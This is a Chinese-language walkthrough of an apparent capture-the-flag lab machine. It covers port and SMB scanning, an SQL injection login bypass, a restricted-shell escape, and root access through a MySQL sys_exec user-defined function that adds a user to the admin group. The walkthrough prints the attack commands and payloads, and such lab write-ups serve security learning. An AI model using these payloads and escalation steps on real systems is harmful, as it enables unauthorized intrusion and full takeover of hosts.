[TOC]

# 信息收集

```
arp-scan  -l
```

- 得到ip:192.168.174.169

```
nmap -p- --min-rate 10000 192.168.174.169
```

- 开放了22,80,139,445端口

分别进行tcp详细扫描，漏洞扫描和udp扫描

## TCP扫描

```
nmap -sT -sC -sV -O -p22,80,139,445 -oA /nmapscan/tcp 192.168.174.169 
```



## 漏洞扫描

```
nmap --script=vuln -p22,80,139,445 -oA /nmapscan/vuln 192.168.174.169
```



## UDP扫描

```
nmap -sU --min-rate 10000 --top-ports=100 192.168.174.169 
```



# 139，445端口分析

根据tcp详细扫描和漏洞扫描的脚本结果，使用的是samba协议

```
smbmap -H 192.168.174.169
```

不过不知道为什么一直不出结果

```
enum4linux -a 192.168.174.169
```



除了枚举出三个用户没有其他有效信息

```
smbclient //192.168.174.169
```



也没什么有效信息

# 80端口分析

```
gobuster dir -u "http://192.168.174.169" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,zip,txt
```



```
dirb http://192.168.174.169 /usr/share/wordlists/dirb/big.txt
```



除了这些目录，还有漏洞扫描枚举出的/database.sql,/icons目录

- 查看/database.sql



得到一个用户名和密码，尝试登录默认网页和ssh连接都没有用

# sql注入

尝试对网页进行sql注入

都输入单引号发现和mysql有关的报错



其他的都是正常提示错误

- 尝试万能密码登录

```
' or '1'='1
```



说明可行，能登陆，但是可能因为账号问题不能正常回显

- 尝试账号输入john，密码输入万能密码



- 初次尝试出现这个类似登录成功的页面，不知道怎么回事，不过多试几次后发现成功登录（看别人的wp发现通过sql注入登录的时候url改变，直接改变url的username参数为john，会出现上面的错误页面，不过想要得到成功登录的界面还是账号为john，密码为万能密码）



# ssh登录

拿到john的密码尝试ssh连接



登录成功（ssh加这些参数还是因为版本问题）

- 这个是一个被限制的bash，可用的命令也不够更多操作，尝试拿到功能完整的bash

```
echo os.system("/bin/bash")
```

- 实现rbash逃逸

- 原理是把输出的这串代码丢给python解释器执行，python内部执行os.system("/bin/bash")，os.system（）底层fork（）创建新子进程，其实就和python3  -c 'import os;os.system("/bin/bash")'一样


成功拿到功能完整的bash

- 进行一系列的信息收集后在/var/www发现



得到了mysql的root账号，以及空密码，尝试从内部连接mysql数据库的root用户

```
mysql -u root
```

# UDF提权



- 切换为mysql库后查看表，发现func表



func表中有sys_exec函数

- *sys_exec* 是通过 **MySQL UDF（用户自定义函数）** 实现的函数，用于在 MySQL 中直接执行操作系统命令。它通常依赖 *lib_mysqludf_sys* 插件库，并返回命令的退出码。

```
select sys_exec("usermod -a -G admin john")
```

- `-a -G admin`：将用户 `john` **追加**到 `admin` 组（`-a` 表示追加，不覆盖原有组）。

执行后就将john加入到admin组，这时直接

```
sudo -i
```

输入john用户的密码



成功提权
